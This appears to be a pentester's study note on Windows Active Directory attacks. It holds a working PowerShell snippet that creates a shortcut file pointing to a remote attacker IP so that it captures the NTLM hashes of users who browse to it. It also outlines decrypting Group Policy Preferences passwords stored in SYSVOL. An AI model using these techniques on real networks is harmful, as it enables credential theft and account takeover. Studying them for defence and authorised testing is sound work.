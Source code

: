 # Active Link File Attacks & GPP

<aside>
💡

Run in an elevated SHELL

</aside>

$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()

And thats it, once u load the drive, you basically get hashes of users who just load this file 🤷🏻

`Crazy`

Or we use netexec aswell

![image.png](Active%20Link%20File%20Attacks%20&%20GPP%2015d357aeddc08065af89eb2b14b25863/image.png)

Does this for us too.

<aside>
💡

Group Policy Preferences GPP

</aside>

- Allowed admins to create policies with embedded credentials.
- Password for encrypting the data for the credentials when created with GPP, can be obtained, due to bad handling, which results in Account compromise:

![image.png](Active%20Link%20File%20Attacks%20&%20GPP%2015d357aeddc08065af89eb2b14b25863/e9d682f5-3639-4341-8da6-df863b62d6ec.png)

- Still revelant

A Patch available, so attack works for unpatched systems, or if file is still on the system, due to mentioned key.

![image.png](Active%20Link%20File%20Attacks%20&%20GPP%2015d357aeddc08065af89eb2b14b25863/image%201.png)

Another way is to enumerate Key urself, but use Metasploit für ease of use.

<aside>
💡

ALL OF THOSE FILES TALKED ABOUT ARE STORED IN `SYSVOL`

</aside>